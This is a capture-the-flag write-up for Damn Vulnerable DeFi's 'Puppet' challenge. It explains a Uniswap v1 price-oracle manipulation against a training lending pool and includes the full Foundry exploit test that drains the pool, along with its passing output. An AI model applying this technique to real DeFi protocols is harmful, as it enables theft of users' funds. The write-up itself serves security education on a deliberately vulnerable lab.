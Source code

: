 # Damn Vulnerable DeFi (Foundry version)

- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

## Challenge #8 - Puppet - Description

There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

## Scope

| File Name                                                        | SHA-1 Hash                               |
| ---------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/puppet/PuppetPool.sol | c82bce6a1f45ee188f695600b72f2be12a373216 |

## Plan

Seems like a LP oracle pool manipulation especially if you compare our liquidity with the pool's. More info can be found [here](https://osec.io/blog/reports/2022-02-16-lp-token-oracle-manipulation/).

## Solution

1.  Give all of our DVTs for ETH through Uniswap.
2.  Borrow all the DVTs from the pool.

<details>
    <summary>Description</summary>

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/puppet/Puppet.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
import {PuppetPool} from "../../../src/Contracts/puppet/PuppetPool.sol";
import {Math} from "openzeppelin-contracts/utils/math/Math.sol";

interface UniswapV1Exchange {
    function addLiquidity(uint256 min_liquidity, uint256 max_tokens, uint256 deadline)
        external
        payable
        returns (uint256);

    function balanceOf(address _owner) external view returns (uint256);

    function tokenToEthSwapInput(uint256 tokens_sold, uint256 min_eth, uint256 deadline) external returns (uint256);

    function getTokenToEthInputPrice(uint256 tokens_sold) external view returns (uint256);
}

interface UniswapV1Factory {
    function initializeFactory(address template) external;

    function createExchange(address token) external returns (address);
}

contract Puppet is Test {
    // Uniswap exchange will start with 10 DVT and 10 ETH in liquidity
    uint256 internal constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 internal constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;

    uint256 internal constant ATTACKER_INITIAL_TOKEN_BALANCE = 1_000e18;
    uint256 internal constant ATTACKER_INITIAL_ETH_BALANCE = 25e18;
    uint256 internal constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;
    uint256 internal constant DEADLINE = 10_000_000;

    UniswapV1Exchange internal uniswapV1ExchangeTemplate;
    UniswapV1Exchange internal uniswapExchange;
    UniswapV1Factory internal uniswapV1Factory;

    DamnValuableToken internal dvt;
    PuppetPool internal puppetPool;
    address payable internal attacker;

    function setUp() public {
        /**
         * SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE
         */
        attacker = payable(address(uint160(uint256(keccak256(abi.encodePacked("attacker"))))));
        vm.label(attacker, "Attacker");
        vm.deal(attacker, ATTACKER_INITIAL_ETH_BALANCE);

        // Deploy token to be traded in Uniswap
        dvt = new DamnValuableToken();
        vm.label(address(dvt), "DVT");

        uniswapV1Factory = UniswapV1Factory(deployCode("./src/build-uniswap/v1/UniswapV1Factory.json"));

        // Deploy a exchange that will be used as the factory template
        uniswapV1ExchangeTemplate = UniswapV1Exchange(deployCode("./src/build-uniswap/v1/UniswapV1Exchange.json"));

        // Deploy factory, initializing it with the address of the template exchange
        uniswapV1Factory.initializeFactory(address(uniswapV1ExchangeTemplate));

        uniswapExchange = UniswapV1Exchange(uniswapV1Factory.createExchange(address(dvt)));

        vm.label(address(uniswapExchange), "Uniswap Exchange");

        // Deploy the lending pool
        puppetPool = new PuppetPool(address(dvt), address(uniswapExchange));
        vm.label(address(puppetPool), "Puppet Pool");

        // Add initial token and ETH liquidity to the pool
        dvt.approve(address(uniswapExchange), UNISWAP_INITIAL_TOKEN_RESERVE);
        uniswapExchange.addLiquidity{value: UNISWAP_INITIAL_ETH_RESERVE}(
            0, // min_liquidity
            UNISWAP_INITIAL_TOKEN_RESERVE, // max_tokens
            DEADLINE // deadline
        );

        // Ensure Uniswap exchange is working as expected
        assertEq(
            uniswapExchange.getTokenToEthInputPrice(1 ether),
            calculateTokenToEthInputPrice(1 ether, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE)
        );

        // Setup initial token balances of pool and attacker account
        dvt.transfer(attacker, ATTACKER_INITIAL_TOKEN_BALANCE);
        dvt.transfer(address(puppetPool), POOL_INITIAL_TOKEN_BALANCE);

        // Ensure correct setup of pool.
        assertEq(puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE), POOL_INITIAL_TOKEN_BALANCE * 2);

        console.log(unicode"🧨 Let's see if you can break it... 🧨");
    }

    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        vm.startPrank(attacker);
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, DEADLINE);
        puppetPool.borrow{value: attacker.balance}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function validation() internal {
        // Attacker has taken all tokens from the pool
        assertGe(dvt.balanceOf(attacker), POOL_INITIAL_TOKEN_BALANCE);
        assertEq(dvt.balanceOf(address(puppetPool)), 0);
    }

    // Calculates how much ETH (in wei) Uniswap will pay for the given amount of tokens
    function calculateTokenToEthInputPrice(uint256 input_amount, uint256 input_reserve, uint256 output_reserve)
        internal
        returns (uint256)
    {
        uint256 input_amount_with_fee = input_amount * 997;
        uint256 numerator = input_amount_with_fee * output_reserve;
        uint256 denominator = (input_reserve * 1000) + input_amount_with_fee;
        return numerator / denominator;
    }
}
```

</details>

### Proof of Concept

```
./run.sh 8
[⠢] Compiling...
[⠒] Compiling 1 files with 0.8.17
[⠢] Solc 0.8.17 finished in 777.45ms
Compiler run successful (with warnings)

Running 1 test for test/Levels/puppet/Puppet.t.sol:Puppet
[PASS] testExploit() (gas: 152740)
Logs:
  🧨 Let's see if you can break it... 🧨

🎉 Congratulations, you can go to the next level! 🎉

Test result: ok. 1 passed; 0 failed; finished in 1.36ms
```
